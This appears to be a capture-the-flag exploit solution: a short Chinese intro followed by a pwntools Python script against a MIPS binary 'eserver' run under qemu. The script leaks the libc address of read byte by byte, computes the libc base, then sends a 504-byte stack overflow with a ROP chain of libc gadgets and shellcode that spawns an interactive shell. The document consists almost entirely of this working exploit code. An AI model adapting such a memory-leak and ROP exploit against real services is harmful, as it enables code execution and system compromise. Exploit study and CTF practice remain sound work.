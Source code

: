 exp如下（注意挂载的是qemu system的libc和ld）：

```python
from pwn import *
context.arch = "mips"
context.endian = 'little'
context.os = "linux"
context.log_level = 'debug'

readOffset_True = 0
libc = ELF("./lib/libc.so.6")								# 挂载的是qemu system的libc和ld
for i in range(3):
    p = process(["qemu-mipsel-static", "-L", ".", "./eserver"])
    p.sendlineafter("Input package: ","Administrator")
    log.info(p.recv())
    sleep(0.5)
    p.sendlineafter("Input package: ",str(i))
    p.recvuntil("Response package: ")
    leak_byte = u8(p.recv(1))
    readOffset_True += (leak_byte << (8*i))
    p.close()
print(hex(readOffset_True))
readOffset_Libc = libc.symbols['read']
libcCodeBase = readOffset_True - readOffset_Libc 
FullLibcCodeBase = 0x7f000000 + libcCodeBase
log.success(hex(FullLibcCodeBase))
# -----------------------------------------------------------
p = process(["qemu-mipsel-static","-L", "./", "./eserver"])	# 挂载的是qemu system的libc和ld

lw_s3_gadget = 0xA0730 + FullLibcCodeBase
loc_126440 = 0x126440 + FullLibcCodeBase
loc_23828 = 0x23828 +FullLibcCodeBase

padding = b"TruE"
shellcode = asm(shellcraft.sh())
payload = b'a'*504											# overflow
payload += b'b'*4										    # $fp								 
payload += p32(lw_s3_gadget) 								# $ra  

payload += b'c'*36
payload += padding                        	                # s0
payload += p32(loc_126440)				                    # s1
payload += padding                        	                # s2
payload += padding           								# s3
payload += p32(loc_23828)   								# ra  
payload += b'd'*28
payload += shellcode

p.sendlineafter('Input package: ', payload)
p.sendlineafter('Input package: ', 'EXIT')
p.interactive()
```

